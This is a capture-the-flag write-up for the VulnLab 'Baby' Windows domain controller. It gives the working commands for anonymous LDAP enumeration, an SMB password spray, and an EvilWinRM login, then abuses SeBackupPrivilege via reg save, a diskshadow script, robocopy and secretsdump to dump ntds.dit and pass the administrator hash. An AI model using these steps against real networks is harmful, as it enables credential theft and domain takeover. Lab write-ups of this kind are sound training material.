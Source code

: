 ```yaml
---
title: "VulnLab - Baby Writeup"
date: 2023-11-22
tags: ["Vulnlab", "Writeup", "AD"]
---
```

![Baby Thumbnail](security/vulnlab/baby/vl-baby.png)

This is a write-up of the Baby machine on [VulnLab](https://www.vulnlab.com/) by xct. This box deals with anonymous LDAP enumeration, and exploitation of the SeBackupPrivilege to exfiltrate and crack user hashes.

## User

Hint: `Look into anonymous LDAP Access.`

I started by performing an nmap scan of the machine, and got the following results:

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-15 01:00:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-11-15T01:01:42+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2023-11-15T01:01:02+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2023-07-29T07:48:30
|_Not valid after:  2024-01-28T07:48:30
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-15T01:01:04
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

This gives us some helpful information such as the name of the domain and host we're working with (DC=baby,DC=vl), and running services.

### LDAP Enumeration

I utilized nmap to dump information about the domain with `nmap -n -sV --script "ldap* and not brute" -Pn IP`, and ldapsearch to dump the users with `ldapsearch -x -H ldap://IP:389 -b "DC=baby,DC=vl" > ldap-dump.txt` where we found a notable user:

```text
# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to REDACTED
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151437.0Z
displayName: Teresa Bell
uSNCreated: 12889
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12905
name: Teresa Bell
objectGUID:: EDGXW4JjgEq7+GuyHBu3QQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819812778759642
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Teresa.Bell
sAMAccountType: 805306368
userPrincipalName: Teresa.Bell@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z
msDS-SupportedEncryptionTypes: 0
```

Teresa Bell had a password in the description for her user (redacted for walkthrough), but trying to connect with EvilWinRM failed due to not having the correct password, I decided to use CrackMapExec to spray these credentials across the other valid users we pulled from LDAP. 

### SMB Password Spray

Before we're able to spray the password we found we need to build a list of valid users, I did this by parsing the LDAP dump to pull out usernames in a format CME can read with `cat ldap-dump.txt | grep userPrincipalName | awk '{print $2}' | cut -d "@" -f 1`:

```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ian.Walker
```

I used CrackMapExec to perform an SMB password spray against those users with `crackmapexec smb IP -u ./users.txt -p PASSWORD --shares`:

![SMB Password Spray](security/vulnlab/baby/cme-smb-passwd-spray.png)

From this, we see that the password works on Caroline Robinson's account, but her password needs to be changed.

### Getting the Flag

Before we can login, we have to change the account's password. I utilized smbpasswd for this using `smbpasswd -r IP -U USER`. Next, we can login using EvilWinRM and get the user flag with `evil-winrm -i IP -u Caroline.Robinson -p PASSWORD`:

![User Flag](security/vulnlab/baby/user-flag.png)

## Root

Hint: `Look at user privileges.`

I started by enumerating the permissions of our Caroline.Robinson user with `whoami /priv`:

![Initial Permissions](security/vulnlab/baby/initial-privs.png)

### SeBackupPrivilege

Of note is the SeBackupPrivilege allows a user to backup any file on a machine, regardless of permissions. This includes things like the sam and system files which we can feed into secretsdump or mimikatz to extract user hashes. I moved into a directory where the user had write permissions and made copies of the sam and system files to download onto my machine with `reg save hklm\sam c:\Temp\sam` and `reg save hklm\system c:\temp\system`, and downloaded them with smbclient.

I then fed the files into mimikatz and got the following hashes:

![Local Hashes](security/vulnlab/baby/local-creds.png)

However, when attempting to pass the Administrator hash to login with `evil-winrm -i IP -u 'administrator' -H 'HASH'`, it doesn't work because these are local accounts as opposed to domain accounts. To get the domain administrator hash that we need to log in, we have to use the SeBackupPrivilege to dump the ntds.dit file which is a database containing AD information including user objects. 

### Getting the Flag

We can make a copy of ntds.dit and dump it using diskshadow and robocopy.

I first created the following script to run with diskshadow, saved as `backup.txt`:

```text
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

I ran it with `diskshadow /s backup.txt`, and was able to dump the ntds.dit with `robocopy /b E:\Windows\ntds . ntds.dit`. Feeding those into secretsdump with `impacket-secretsdump -ntds ntds.dit -system system.hive local` we get the domain administrator hash which we can pass to login and get the root flag:

![Root Flag](security/vulnlab/baby/root-flag.png)
